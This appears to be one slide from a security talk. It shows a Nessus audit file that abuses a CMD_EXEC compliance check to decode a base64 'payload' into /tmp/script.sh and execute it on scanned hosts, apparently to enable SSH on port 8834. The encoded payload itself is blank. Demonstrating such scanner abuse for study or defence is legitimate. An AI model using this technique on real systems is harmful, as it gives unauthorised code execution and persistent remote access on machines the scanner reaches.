

# Enable sshd on Port 8834: Audit File
<check_type:"Unix">

<custom_item>
 system	 : "Linux"
 type		 : CMD_EXEC
 description	 : "Enable SSH on port 8834"
 cmd		 : "echo                | base64 -d > /tmp/script.sh; chmod +x /tmp/script.sh; /tmp/script.sh"
 timeout	 : "10"
</custom_item>

</check_type>

‘payload’
More Information: Nessus Compliance Checks Reference
29